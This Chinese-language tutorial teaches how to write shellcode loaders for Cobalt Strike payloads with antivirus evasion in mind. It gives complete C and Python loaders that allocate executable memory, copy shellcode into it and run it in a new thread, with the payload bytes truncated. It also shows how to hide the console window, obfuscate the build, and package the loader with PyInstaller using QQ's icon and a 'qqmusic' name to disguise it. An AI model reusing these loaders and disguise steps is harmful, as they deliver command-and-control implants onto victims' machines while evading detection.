





# 1.shellcode

## 1.1什么是shellcode

ShelLcode是一种特殊的**二进制代码**, 主要目的是在目标系统上执行特定的操作，例如获取系统权限、建立远程访问通道、执行恶意代码等。Shellcode 的名称来源于其最常见的用途之一，即在成功利用后注入代码来获取系统 shell 的控制权。

## 1.2shellcode文件

shellcode文件通常是一个二进制文件。Shellcode 是一组用于执行特定任务的机器码指令，它们被设计成紧凑且直接执行所需操作的二进制表示形式。这些指令被用于利用漏洞、执行特定的恶意功能或与远程命令与控制（C2）服务器建立连接等。

```
exe文件 --> 硬盘 --> 把exe内容,读取到内存中 --> 转成二进制指令 --> cpu运行
```

***Shellcode 通常以二进制格式存储，因为它需要直接由计算机的中央处理单元（CPU）执行。***这与源代码或文本文件不同，这些文件需要编译或解释成机器码才能执行。

在一般情况下，** shellcode 可能以十六进制字符串的形式出现** ，但在运行时，这些字符串通常会被解析为二进制数据。要使用 shellcode，通常需要将它嵌入到合适的载体中或以其他方式将其传递给目标系统，以便执行其中的指令。

## 1.3为什么有shellcode

如果只是针对免杀而言, shellcode的出现可以帮助我们进行各种不同方式上线cs, 从而解决了只有exe上线做免杀的那几种受限的方法, 提供更多不同的免杀处理方式。

## 1.4shellcode如何运行

上面我们了解到, 一般情况下我们拿到的 shellcode, 要么是一个16进制字符串, 要么是一个二进制文件, 他们都是不能单独直接可以运行的文件, 所以我们需要借助加载器实现shellcode在目标机器中运行。

**使用加载器运行shellcode**

# 2.cs的shellcode

二进制文件形式的shellcode在cs中是raw格式文件, "raw" 格式文件可能没有经过任何压缩、编码或加密。这种文件格式通常包含原始的二进制数据，而不是经过格式化的文本数据。







里面的内容全是二进制, 非文本

16进制格式的字符串对应的shellcode生成





这个就是c语言中, 定义shellcode的代码, 其中

> unsigned char : 这表示 buf 数组的元素类型是无符号字符（8位）
> 
> buf[] : 这是字符数组的声明，名称为 buf
> 
> "\xfc...." : 这是字符串字面值, 这是一个十六进制数

# 3.shellcode加载器

## 1.1什么是shellcode加载器

用于帮助 shellcode文件/16进制字符串的shellcode 运行的工具, 通过由一段代码组成

## 1.2为什么有shellcode加载器

帮助shellcode在目标系统上运行起来

## 1.3shellcode加载器如何编写

首先shellcode加载器既然是通过代码编写, 那么在理论上不同编程语言都可以编写.

整个shellcode想要执行, 需要加载器做那些事情呢? 由于shellcode直接由cpu执行, 那么回想一个程序是怎么跑起来的? 首先程序运行产生的数据一定是在内存中, 数据从内存中取出来, 翻译成指令, cpu执行这些指令

所以我的加载器, 需要实现的功能就是

- **开辟内存**

- **把shellcode放到这块内存中**

- **想办法让这块内存中的shellcode被cpu执行 回调函数执行**

总而言之

***<u>申请内存-->把shellcode加载到内存-->让这段内存里的东西运行起来</u>***

那么问题来了, 怎么开辟内存, 怎么复制shellcode放到这块内存? 怎么让shellcode执行? 好在windows 自带的一些api函数可以帮我们实现

## 1.4VirtualAlloc函数

**VirtualAlloc** 是 Windows API 中用于 **分配/申请、保留或提交内存区域的函数** ，VirtualAlloc 通常用于高效地分配和管理较大的内存块，特别是在需要进行精细内存控制的情况下。其原型(定义)如下：

```
LPVOID VirtualAlloc(
  LPVOID lpAddress,         // 指定想要分配内存的首地址，通常为 NULL，表示系统自动选择地址。
  SIZE_T dwSize,            // 要分配的内存块的大小，以字节为单位。
  DWORD flAllocationType,   // 内存分配的类型，比如 MEM_COMMIT 或 MEM_RESERVE。
  DWORD flProtect           // 分配内存的保护属性，如 PAGE_READWRITE、PAGE_EXECUTE_READWRITE 等。
);
```

参数的含义如下：

1. lpAddress : 指定分配或保留的内存区域的首选基地址。如果此参数为 NULL ，则系统会选择适
当的地址。如果指定了地址，系统将尝试在指定的基地址上分配内存。注意，此地址必须是页对
齐的。

2. dwSize : 指定要分配的内存区域的大小，以字节为单位。
3. flAllocationType : 指定内存的分配类型。可能的值包括：

- MEM_COMMIT (0x1000) : 将物理页面分配给内存中的一个或多个页，并将这些页的内容初
始化为零。如果同时指定了 MEM_RESERVE，则系统会保留这些页的地址空间而不将它们
分配给任何物理页面。
- MEM_RESERVE (0x2000) : 保留指定地址空间，不分配物理内存。这样可以阻止其他内存分
配函数malloc和LocalAlloc等再使用已保留的内存范围,直到它被释放。当使用上面的
VirtualAlloc函数保留了一段地址空间后，接下还你还可以继续多次调用同样的函数提交这
段地址空间中的不同页面。
- MEM_RESET (0x80000) : 将分配的页面的内容初始化为零。这个标志仅在使用 
MEM_COMMIT 标志时才有意义。

4. flProtect : 指定内存保护属性。可能的值包括：

- PAGE_EXECUTE (0x10) : 允许页面被执行。
- PAGE_EXECUTE_READ (0x20) : 允许页面被执行和读取。
- PAGE_EXECUTE_READWRITE (0x40) : 允许页面被执行、读取和写入。可读可写可执行
- PAGE_EXECUTE_WRITECOPY (0x80) : 允许页面被执行和写入。页面内容可以被其他进程写
入。
- PAGE_READONLY (0x02) : 允许页面被读取。
- PAGE_READWRITE (0x04) : 允许页面被读取和写入。
- PAGE_WRITECOPY (0x08) : 允许页面被写入。页面内容可以被其他进程写入。

## 1.5memcpy函数

**memcpy** 是 C 标准库中的一个函数，用于将内存块的内容从一个位置复制到另一个位置

```
void *memcpy( 
 void *dest,
 const void *src, 
 size_t n
 );
```

<br/>

1. dest : 指向目标内存区域的指针，即复制操作的目标位置。
2. src : 指向源内存区域的指针，即复制操作的源位置。
3. n : 要复制的字节数。

现在内存相关的操作, 这些函数都可以实现了, 就差怎么执行shellcode了, 执行shellcode的方式很多, 后面会专门拿出来总结都有哪些, 当下我们使用 创建线程 运行我们的shellcode, 这就需要 CreateThread。

## 1.6CreateThread

**CreateThread** 是 Windows API 中用于创建新线程的函数。其原型如下

```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES lpThreadAttributes,  // 线程的安全属性，一般设置为 NULL。
  SIZE_T dwStackSize,                        // 线程的初始堆栈大小，以字节为单位。0 表示使用系统默认值。
  LPTHREAD_START_ROUTINE lpStartAddress,     // 线程执行的入口函数地址。
  LPVOID lpParameter,                        // 传递给线程入口函数的参数。
  DWORD dwCreationFlags,                     // 线程创建标志，决定线程是立即执行还是挂起状态。
  LPDWORD lpThreadId                         // 指向接收线程ID的变量。
);
```

1.lpThreadAttributes : 一个指向 SECURITY_ATTRIBUTES 结构的指针，用于指定新线程的安全
性。可以为 NULL ，表示使用默认的线程安全性。

2.dwStackSize : 指定新线程的初始堆栈大小。可以为 0，表示使用默认堆栈大小。

3.lpStartAddress : 指向线程函数的指针，即新线程的入口点。线程函数是一个 
LPTHREAD_START_ROUTINE 类型的函数指针，通常是线程的主要执行体。

4.lpParameter : 传递给线程函数的参数。这是一个指向任意类型的指针，可以用来传递数据给线程
函数。

5.dwCreationFlags : 指定新线程的创建标志。常用的标志包括：

- 0 : 默认标志，表示线程立即可执行。

- CREATE_SUSPENDED (0x00000004) : 创建后线程处于挂起状态，需要调用 ResumeThread 才能执行。


6.lpThreadId : 一个指向 DWORD 的指针，用于接收新线程的标识符（线程 ID）。如果不需要线
程 ID，可以传递 NULL 。

# 4.C语言 加载器

windows api函数我们了解了, 但是如何使用这些函数的? 用什么编程语言呢?自然是c语言啦, 在c语言中可以很方便的调用 windows api函数, 帮助我们编写shellcode加载器

## 4.1加载器代码

```c_cpp
#include <windows.h> // Windows API 和 一些常量
#include <stdio.h> // 标准输入输出库的头文件
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
口
unsigned char buf[] = "16进制字符串shellcode \xfc";
void main() {
 // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
 LPVOID exec = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, 
PAGE_EXECUTE_READWRITE);
 // 申请失败 , 退出
 if (exec == NULL) {
 return;
 }
 // 把shellcode拷贝到这块内存
 memcpy(exec, buf, sizeof(buf));
 // 创建线程运行
 HANDLE hThread = CreateThread(
NULL,
 NULL,
 (LPTHREAD_START_ROUTINE)exec,
 NULL,
 NULL,
 0);
 // 等待线程运行
 WaitForSingleObject(hThread, -1);
 // 关闭线程
 CloseHandle(hThread);
}
```

# 5.Python语言 加载器

## 5.1加载器代码

实际上还是借助那些windows api , 但是copy内存的上面是c标准库的函数, 实际上windows 自带的也有copy内存的函数, 那么接下来的编写流程也非常清楚了, 就是如何通过Python代码实现上述那些函数的调用, 以及在Python中16进制的shellcode是如何字面量定义的

```python
# 导入 ctypes库
import ctypes
# 从ctypes库中导入windows api函数
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
CreateThread = ctypes.windll.kernel32.CreateThread
WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
# shellcode可以用cs来生成
buf = b"\xfc..."
# shellcode转成bytearray类型
sc = bytearray(buf)
# 设置VirtualAlloc
VirtualAlloc.restype = ctypes.c_uint64 # 重载函数返回类型为c_uint64
p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(sc)), 0x3000, 0x00000040) # 申请内存
buf = (ctypes.c_char * len(sc)).from_buffer(sc) # 将sc指向指针
RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(sc))) # 复制sc进申请的内存中
h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0),
ctypes.pointer(ctypes.c_int(0))) # 执行创建线程
WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) # 检测线程创建事件
# ctypes.c_int(0) NULL/0
# ctypes.c_void_p(p) 指针类型
```

解释每个部分：

1. import ctypes : 导入 ctypes 模块，这个模块提供了与 C 语言兼容的数据类型和函数调用方式。
2. VirtualAlloc , RtlMoveMemory , CreateThread , WaitForSingleObject : 这些变量是通过 ctypes 
获取 kernel32.dll 中相关函数的句柄，用于内存操作和线程创建等操作。
3. buf = b"\xfc..." : 定义了一个包含 shellcode 的字节数组。这里的 \xfc... 表示 shellcode 的二进
制内容。
4. shellcode = bytearray(buf) : 将 shellcode 转换为 bytearray 类型。
5. VirtualAlloc.restype = ctypes.c_uint64 : 设置 VirtualAlloc 函数的返回类型为 c_uint64 。
6. p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), 0x3000, 0x00000040) : 调用 
VirtualAlloc 分配内存，用于存放 shellcode。 0x3000 表示分配提交（MEM_COMMIT）和保
留（MEM_RESERVE）的内存， 0x00000040 表示分配可执行
（PAGE_EXECUTE_READWRITE）的内存。
7. buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode) : 将 shellcode 的内容指向指针。
8. RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(shellcode))) : 使用 RtlMoveMemory
函数将 shellcode 复制到申请的内存中。
9. h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0))) : 调用 CreateThread 创建一个新线程，将刚才分
配的内存作为线程的起始地址。
10. WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) : 使用 WaitForSingleObject 等待线程的结
束。 -1 表示无限等待，直到线程结束

**这段代码的作用是将 shellcode 放入申请的内存空间，创建一个新的线程，并在新线程中执行 shellcode。**

## 5.2Python打包exe

安装

```
pip3 install pyinstaller
```

打包命令

```
pyinstaller -F -w demo.py
-F 打包成一个exe文件
-w 不显示黑窗口 (默认会显示) , 也可以用 --noconsole 参数
-i 指定图标 , .ico文件 或者是exe文件 , 会自动提取exe文件的图标 (不推荐图标)
-n 指定打包好的文件名
--clean 清除上一次打包的文件
--key cjiurfe11a 混淆代码功能 (需要安装 pip3 install tinyaes)
```

打包好的程序在 dist 目录下 , dist是distribution的简写 , 发行版本

示例：

```
 pyinstaller -F -i "C:\\Program Files (x86)\\Tencent\\QQNT\\QQ.exe" -n qqmusic1 main.py
```


注意:py不支持交叉编译 , 什么意思就是windows你只能打包成exe , 不能打包成linux上的可执行二进制文件